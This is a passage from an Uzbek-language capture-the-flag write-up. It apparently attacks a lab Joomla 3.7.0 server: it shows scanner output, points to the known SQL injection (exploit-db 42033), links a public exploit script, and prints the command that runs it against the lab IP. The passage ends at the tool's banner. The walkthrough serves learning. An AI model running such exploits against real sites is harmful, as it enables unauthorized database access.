 ```
http://10.10.128.34/installation/
http://10.10.128.34/language/
http://10.10.128.34/layouts/
http://10.10.128.34/libraries/
http://10.10.128.34/logs/
http://10.10.128.34/modules/
http://10.10.128.34/plugins/
http://10.10.128.34/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/10.10.128.34/
```

> Xulosa:
>
> Berilgan hisobotga ko'ra Joomla **3.7.0** versiyasida ishlamoqda...

Keling shu versiyani qanday zaifligi bor ekanini ko'ramiz.

Qidirish:

```
site:exploit-db.com Joomla 3.7.0
```

Zaiflik: SQLinjection zaifligi bor ekan va bu haqida https://www.exploit-db.com/exploits/42033 shu yerda yozib o'tilgan.



Aynan shu versiya va zaiflik uchun githubdan tayyor eksplatatsiya topdim.

https://github.com/teranpeterson/Joomblah

Buyruq:

```
python3 joomblah.py http://10.10.128.34/
```

Natija:

```

    .---.    .-'''-.        .-'''-.
    |   |   '   _    \     '   _    \                            .---.
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \.
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |
 __.'   '                                               |/'..' / '---'/ /   | |_| |     | |
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.
|____.'                                                                `--'  `" '---'   '---'
         Original code by @stefanlucas


```